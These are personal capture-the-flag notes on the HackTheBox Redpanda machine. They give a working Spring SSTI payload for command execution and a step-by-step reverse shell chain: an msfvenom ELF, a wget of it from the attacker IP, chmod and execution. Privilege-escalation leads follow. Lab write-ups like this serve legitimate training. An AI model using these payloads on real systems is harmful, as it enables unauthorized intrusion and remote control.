 # HackTheBox Redpanda machine notes

## SSTI
- For some reason always returning process instead of the command response
- Possible SSTI (POST HTTP endpoint /search) payload = "name='*{ssti}'" (not possible with dollar sign for some reason)

- Not let's remember that $ and _ characters are banned, so we need to use the SSTI-PAYLOAD generator that will encode it to another format
- The payload looks like this: *{T(org.apache.commons.io.IOUtils).toString(T(java.lang.Runtime).getRuntime().exec('the command').getInputStream())}


# How to estabilish reverse shell
1. Generate ELF file: msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.10.14.8 LPORT=31337 -f elf > r.elf
2. Make the target download the file with wget like this: *{T(org.apache.commons.io.IOUtils).toString(T(java.lang.Runtime).getRuntime().exec('wget 10.10.14.8:443/r.elf').getInputStream())}
3. Give every permission to file: *{T(org.apache.commons.io.IOUtils).toString(T(java.lang.Runtime).getRuntime().exec('chmod 777 ./r.elf').getInputStream())}
4. Start netcat listener at our host and run the file at target: *{T(org.apache.commons.io.IOUtils).toString(T(java.lang.Runtime).getRuntime().exec('./r.elf').getInputStream())}
5. Make an interactive python shell like this: python -c 'import pty; pty.spawn("/bin/sh")'

# Privilege escalation
- I discovered that there is a process running as root containing the panda search, when crawling through the long goofy ahh java file structure I found three java files at this path: "/opt/panda_search/src/main/java/com/panda_search/htb/panda_search"
- Hardcoded sql credentials in MainController for some reason

## XXE possible to do PRIV ESC
- Possible XXE in "/opt/credit-score/LogParser/final/src/main/java/com/logparser/App.java"